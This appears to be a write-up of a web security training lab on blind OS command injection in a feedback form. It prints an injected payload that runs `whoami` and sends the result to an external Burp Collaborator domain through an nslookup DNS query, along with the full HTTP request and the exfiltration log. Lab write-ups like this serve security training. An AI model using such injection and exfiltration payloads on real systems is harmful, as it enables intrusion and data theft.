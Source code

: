 # Blind OS command injection with out-of-band data exfiltration

## Description

This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. But it is possible to trigger out-of-band interactions with an external domain.

## Reproduction and proof of concept

1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Collaborator tab.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
4. Modify the `email` parameter, changing it to something like the following:

```
email=||nslookup+`whoami`.hk5vl3zdi4zucr2tr0c14z3qchi860up.oastify.com||
```

The request now looks like:

```text
POST /feedback/submit HTTP/1.1
Host: 0a7000c003c37b04c3374d4e009000bb.web-security-academy.net
Cookie: session=qliyIHtpjkwmWtNs0pW8fs7ji2qvW5hA
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 134
Origin: https://0a7000c003c37b04c3374d4e009000bb.web-security-academy.net
Referer: https://0a7000c003c37b04c3374d4e009000bb.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

csrf=8hSNG1tBfEmAaa2HbN5ZobYzrgHHpdsO&name=Test&email=||nslookup+`whoami`.hk5vl3zdi4zucr2tr0c14z3qchi860up.oastify.com||&subject=out-of-band+data+exfiltration&message=is+possible
```
    
5. Go back to the Collaborator tab, and click **Poll now**. You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.

```text
The Collaborator server received a DNS lookup of type A for the domain name peter-Xy4jpt.hk5vl3zdi4zucr2tr0c14z3qchi860up.oastify.com.  The lookup was received from IP address 3.251.104.180:18037 at 2023-Feb-04 14:37:12.044 UTC.
```

7. To complete the lab, enter the name of the current user, in this case `peter-Xy4jpt`.

## Exploitability

An attacker will need to execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator, and then enter the name of the current user to complete the lab. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server (or a C2)._
